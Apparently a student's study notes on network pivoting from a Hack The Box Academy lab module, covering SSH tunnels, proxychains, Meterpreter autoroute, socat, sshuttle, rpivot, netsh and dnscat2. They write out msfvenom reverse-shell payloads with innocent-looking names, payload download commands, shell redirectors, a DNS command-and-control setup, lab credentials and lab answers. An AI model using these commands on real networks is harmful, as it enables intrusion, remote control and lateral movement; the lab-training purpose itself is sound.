







`# ssh local port forwarding 



Forward remote port 3306 on machine 10.129.202.64 on local port 1234

ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

**forward multiple ports**

ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64

# dynamic port forwarding and pivoting: SSH Tunnelling over SOCKS proxy 
When a machine has multiple network interfaces attached to it. Its a good idea to use a SOCKS proxy to pivot through the machine. Then access other machines on the network.
SOCKS4 and SOCKS5 are the most common protocols for proxy servers. The main difference between SOCKS4 and SOCKS5 is that SOCKS5 supports authentication.



**Dynamic port forwarding with SSH**
ssh -D 9050 ubuntu@10.129.202.64

This will create a SOCKS proxy on the local machine on port 9050. Then you can use nmap, curl, wget, etc to access other machines on the network. 
One more thing we need to configure  is the proxychains configuration file. 
```
vim /etc/proxychains.conf
```
Add the following line to the end of the file

socks4 127.0.0.1 9050
```
HTB_@cademy_stdnt!
```

proxychains nmap -v -sn 172.16.5.1-200 # scan the network using nmap through the proxy


# More tools can be used via the proxychains
metasploit, even xfreerdp 

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

# Labs 

SSH to 10.129.56.99 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"

You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

1. ssh to the machine
2. run ifconfig

Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.


1. ssh -D 9050 ubuntu@
2. proxychains configuration
3. proxychains xfreerdp /v:172.16.5.19  /u:victor /p:pass@123

# Remote/Reverse Port Forwarding with SSH

In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: our attack host and the Windows target. To gain a Meterpreter shell on Windows, we will create a Meterpreter HTTPS payload using msfvenom, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (172.16.5.129). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

https://academy.hackthebox.com/storage/modules/158/33.png

## Case where the Windows target is not directly accessible from the attack host
and we want to use the Ubuntu server as a pivot host to gain access to the Windows target with a reverse connection.

1. Create a payload to be executed on the Windows target machine 
isomarakis@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

2. Create a listenedr on the attack machine with msf multi handler 
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
    payload => windows/x64/meterpreter/reverse_https
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    lhost => 0.0.0.0
    msf6 exploit(multi/handler) > set lport 8000
    lport => 8000

3. Upload the payload to the Pivot host
   scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

4. Setup an http server on the Pivot host

5. Download the payload from the windows machine 
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"

6. Setup the ssh Remote port forwarding
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

7. Execute the Payload

The whole communication process looks like this 
https://academy.hackthebox.com/storage/modules/158/44.png

## Labs 

Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)
    172.16.5.129

What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)
    0.0.0.0

# Meterpreter Tunneling & Port Forwarding


1. Create a payload for ubuntu pivot host

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

2. Start the mu.lti handler on the attack host with the same payload
3. Execute the payload to get the first meterpreter session 

Now can do enumeration with meterpreter, the ping_sweep module, and the portfwd module to forward the RDP port to the attack host
4. In the meterpreter session 
    meterpreter > run post/multi/gather/ping_sweep
    **alternative ping sweep methods**
   1. Unix -> for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
   2. Windows (cmd) -> for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
   3. Windows (powershell) -> 1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}

In cases where the ICMP protocol is blocked, we can run nmap TCP scan to find hosts on the Network. Instead of using the SSH to create a SOCKS proxy we can use metasploit

5. SOCKS Proxy in Metasploit 

    ```
    msf6 > use auxiliary/server/socks_proxy

    msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
    SRVPORT => 9050
    msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
    SRVHOST => 0.0.0.0
    msf6 auxiliary(server/socks_proxy) > set version 4a
    version => 4a
    msf6 auxiliary(server/socks_proxy) > run
    ```
6. Configure the proxychains configuration file
    ```
    socks4 	127.0.0.1 9050
    ```
7. Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.
    ```
    msf6 > use post/multi/manage/autoroute

    msf6 post(multi/manage/autoroute) > set SESSION 1
    SESSION => 1
    msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
    SUBNET => 172.16.5.0
    msf6 post(multi/manage/autoroute) > run

    [!] SESSION may not be compatible with this module:
    [!]  * incompatible session platform: linux
    [*] Running module against 10.129.202.64
    [*] Searching for subnets to autoroute.
    [+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
    [+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
    [*] Post module execution completed
    ```

    **We can also run  autoroute rirectly from the meterpreter session**
    ```
    meterpreter > run autoroute -s 172.16.5.0/23

    [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
    [!] Example: run post/multi/manage/autoroute OPTION=value [...]
    [*] Adding a route to 172.16.5.0/255.255.254.0...
    [+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
    [*] Use the -p option to list all active routes
    ```

    **make sure routes are active**
    ```   
    meterpreter > run autoroute -p

    [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
    [!] Example: run post/multi/manage/autoroute OPTION=value [...]

    Active Routing Table
    ====================

    Subnet             Netmask            Gateway
    ------             -------            -------
    10.129.0.0         255.255.0.0        Session 1
    172.16.4.0         255.255.254.0      Session 1
    172.16.5.0         255.255.254.0      Session 1 
    ```
8. Now we can use proxychains to scan the network with nmap
    ```
    proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
    ```

## Metasploit local port forwarding in meterpreter 

1. portfwd add -l 3300 -p 3389 -r 172.16.5.19

The above command requests the Meterpreter session to start a listener on our attack host's local port (-l) 3300 and forward all the packets to the remote (-r) Windows server 172.16.5.19 on 3389 port (-p) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.
2. xfreerdp /v:localhost:3300 /u:victor /p:pass@123
## Metasploit reverse port forwarding in meterpreter

    ```
    portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
    ```
2. Setup multi/handler 

    ```
    [*] Backgrounding session 1...
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LPORT 8081 
    LPORT => 8081
    msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
    LHOST => 0.0.0.0
    msf6 exploit(multi/handler) > run
    ```

3. Create the windows payload 

    ```
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
    ```

## Labs
What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)
    172.16.5.19,172.16.5.129
Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)

    172.16.5.0/255.255.254.0


# Socat Redirection with a REVERSE shell (socat reverse shell redirector)

**socat is useful when the tarbet machine does not have netcat/ssh installed, generally when it has a limited toolkit**
1. Use socat on the pivot machine (ubuntu)
   socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
2. Create a windows payalod to be uploaded to the victim (windows) 
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
3. Upload the payload to the victim machine
4. Start the multi handler on the attack machine
5. Execute the payload on the victim machine
6. You should see a connection coming from the pivot machine to the attack machine


# Socat Redirection with a Bind Shell (socat bind shell redirector)


1. Use socat on the pivot machine (ubuntu)
   socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
2. Create t windows bind shell listener 
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
3. Upload the listener to the windows victim
3. Start multi handler 


# Windows Pivoting with Putty/Proxifier 



1. make sure the executable is on the machine 
2. create a dynamic port forward with putty
    plink -ssh -D 9050 ubuntu@10.129.15.50
3. use proxifier to start a SOCKS tunnel via PLINK's ssh session 



# sshuttle
doesn't need to configure proxychains with it.
can only pivot over ssh not TOR or HTTPs

To use sshuttle, we specify the option -r to connect to the remote machine with a username and password. Then we need to include the network or IP we want to route through the pivot host, in our case, is the network 172.16.5.0/23.

sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 

then we can run commands normally as 

nmap -v -sV -p3389 172.16.5.19 -A -Pn

# Web srver pivoting with rpivot

Reverse SOCKS proxy tool.
Rpivot binds a machine inside a corporate network to an exxternal server and exposes the client's local port on the server side.



1. Download 
sudo git clone https://github.com/klsecservices/rpivot.git
2. Install Python2.7
   sudo apt-get install python2.7
3. Run the server on the attacker machine 
   python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.
4. transfer the rpivot client to the target machine 
   scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
5. run client.py from the pivot target 
   ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
6. we also need to configure the proxy chains 
7. Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.
   proxychains firefox-esr 172.16.5.135:80


## HTTP-proxy with NTLM authentication
1. python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>


## Lab 

1. Install rpivot
2. Install python2 
3. run rpivot
/python ../../rpivot/server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
4. upload the file 
5. scp client.py ubuntu@10.129.125.152:/home/ubuntu/client.py


# Netsh
Windows commandline tool, used for 
    Finding routes
    Viewing the firewall configuration
    Adding proxies
    Creating port forwarding rules




## Use case Forward all data received on a speicfic port to a remote host on a remotd port 
We can use netsh.exe to forward all data received on a specific port (say 8080) to a remote host on a remote port. This can be performed using the below command.

**port forward**
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25

**verify port portforwarding**
netsh.exe interface portproxy show v4tov4

now we can connect to the port from our mttack machine using xfreerdp

## Lab
1. In parrot 
 xfreerdp /v:10.129.42.198:3389 /u:htb-student /p:HTB_@cademy_stdnt!

2. In windows
   netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.19
   netsh.exe interface portproxy show v4tov4
3. In parrot 
xfreerdp /v:10.129.42.198:8080 /u:victor /p:pass@123
4. flag on the approved vendors in the vendorcontacts.txt
Jim Flipflopgeni

# DNS tunneling with Dnscat2 

 It uses an encrypted Command-&-Control (C&C or C2) channel and sends data inside TXT R

1. starting the dnscat2 server 
cd server
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache


Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=f92d728358b51650aec4fc8fbdb0eb0b inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=f92d728358b51650aec4fc8fbdb0eb0b

2. Download windows machine with the client (windows compatible version)
git clone https://github.com/lukebaggett/dnscat2-powershell.git


 